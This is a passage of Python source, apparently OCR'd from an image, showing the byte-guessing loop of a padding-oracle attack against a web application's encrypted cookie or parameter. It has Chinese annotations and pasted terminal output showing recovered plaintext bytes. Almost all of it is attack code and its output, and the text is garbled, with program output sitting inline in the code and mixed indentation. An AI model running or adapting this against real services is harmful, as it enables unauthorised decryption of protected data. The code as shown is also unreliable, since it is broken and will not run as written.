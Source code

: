 ```python
                    # =a8a0a4a4482a135a84ded47f5036fe89
                    cb = hex_xor(tmp, bc).upper() 
                    # hex_xor('a8a0a4a4482a135a84ded47f5036fe89','00000000000000000000000000000001')
                    # =a8a0a4a4482a135a84ded47f5036fe88，upper：A8A0A4A4482A135A84DED47F5036FE88

                    up_cipher = cb + cipher_block[block]
                    # A8A0A4A4482A135A84DED47F5036FE**88** | 7DD2FB70131CFF2FCFAFA2FC4994187E             
                    # time.sleep(0.5)

                    # we call the oracle, our god
                    connection, response = call_oracle(
                        host, cookie, url, post, method, up_cipher
                    )
                    
                    exe = re.findall("..", cb)
                    #['A8', 'A0', 'A4', 'A4', '48', '2A', '13', '5A', '84', 'DE', 'D4', '7F', '50', '36', 'FE', '88']
					discover = ("").join(exe[size_block - i : size_block]) #当前是空
					current = ("").join(exe[size_block - i - 1 : size_block - i]) #当前是'88'
					find_me = ("").join(exe[: -i - 1]) # A8A0A4A4482A135A84DED47F5036FE

					sys.stdout.write(
						"\r[+] Test [Byte %03i/256 - Block %d ]: \033[31m%s\033[33m%s\033[36m%s\033[0m"
							% (ct_pos, block, find_me, current, discover)
					)
						
					[+] Test [Byte 010/256 - Block 9 ]: [31mA8A0A4A4482A135A84DED47F5036FE[33m88[36m[0m
                                  
                    if test_validity_customize(response, error):

                        found = True
                        connection.close()

                        # data analyse and insert in right order
                        value = re.findall("..", bk)
              			# ['00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '00', '0a']
                        valide_value.insert(0, value[size_block - (i + 1)]) #['0a']

                        if args.verbose == True:
                            print("")
                            print("[+] HTTP ", response.status, response.reason)
                            print("[+] Block M_Byte : %s" % bk)
                            print("[+] Block C_{i-1}: %s" % bp)
                            print("[+] Block Padding: %s" % bc)
                            print("")
                            #找到最后一个block的第一个字节
                            [+] HTTP  200 OK
                            [+] Block M_Byte : 0000000000000000000000000000000a
                            [+] Block C_{i-1}: A8A0A4A4482A135A84DED47F5036FE83
                            [+] Block Padding: 00000000000000000000000000000001

							[36m[1m[+][0m Found 1 bytes : 0a
                            #找到最后一个block的最后一个字节   
                            [+] HTTP  200 OK
							[+] Block M_Byte : 47517e7e227d0a0a0a0a0a0a0a0a0a0a
							[+] Block C_{i-1}: A8A0A4A4482A135A84DED47F5036FE83
							[+] Block Padding: 10101010101010101010101010101010

```
